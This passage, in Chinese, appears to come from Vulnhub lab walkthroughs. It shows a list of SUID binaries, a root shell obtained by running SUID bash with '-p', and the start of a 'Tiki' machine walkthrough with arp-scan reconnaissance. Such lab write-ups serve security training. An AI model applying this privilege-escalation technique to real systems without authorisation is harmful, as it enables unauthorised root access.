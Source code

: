 ```bash
/snap/core18/1754/usr/bin/newgrp
/snap/core18/1754/usr/bin/passwd
/snap/core18/1754/usr/bin/sudo
/snap/core18/1754/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1754/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/sudo
/usr/bin/chfn
# 这里发现一个 bash，尝试提权使用
/usr/bin/bash
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
```

由于`/usr/bin/bash`拥有`suid`权限，所以直接使用`-p`开启一个带有`root`权限的`bash`

```bash
# 提权成功
-bash-5.0$ /usr/bin/bash -p
bash-5.0# whoami
root
```

# Vulnhub 靶场 Tiki

## 1. 信息搜集

**1.1 局域网扫描**

```bash
┌──(root㉿pinginglab)-[/home/pinginglab]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:fb:4a:01, IPv4: 192.168.231.129
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.231.1   00:50:56:c0:00:08       VMware, Inc.
192.168.231.2   00:50:56:e1:0e:4f       VMware, Inc.
# 目标主机
192.168.231.140 00:0c:29:2c:40:48       VMware, Inc.
192.168.231.254 00:50:56:f4:af:6c       VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 1.894 seconds (135.16 hosts/sec). 4 responded
```
